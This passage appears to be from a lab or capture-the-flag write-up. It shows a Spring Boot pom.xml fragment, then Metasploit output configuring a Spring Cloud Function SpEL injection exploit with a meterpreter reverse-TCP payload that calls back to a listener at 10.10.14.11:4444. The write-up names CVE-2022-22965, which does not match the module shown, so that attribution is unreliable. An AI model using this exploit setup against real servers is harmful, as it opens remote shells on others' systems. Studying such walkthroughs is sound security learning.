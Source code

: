 ```xml
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>


```
- Based on reseach on the internet found that the version of springframework has a vunrabileity attached cve-2022-22965. I then put in what was required to implement the exploit

```shell
exploit(multi/http/spring_cloud_function_spel_injection) > options

Module options (exploit/multi/http/spring_cloud_function_spel_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:
                                         port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://gi
                                         thub.com/rapid7/metasploit-framewo
                                         rk/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interfac
                                         e to listen on. This must be an ad
                                         dress on the local machine or 0.0.
                                         0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing con
                                         nections
   SSLCert                     no        Path to a custom SSL certificate (
                                         default is randomly generated)
   TARGETURI  /functionRouter  yes       Base path
   URIPATH                     no        The URI to use for this exploit (d
                                         efault is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.11      yes       The listen address (an interface may b
                                     e specified)
   LPORT  4444             yes       The listen port
```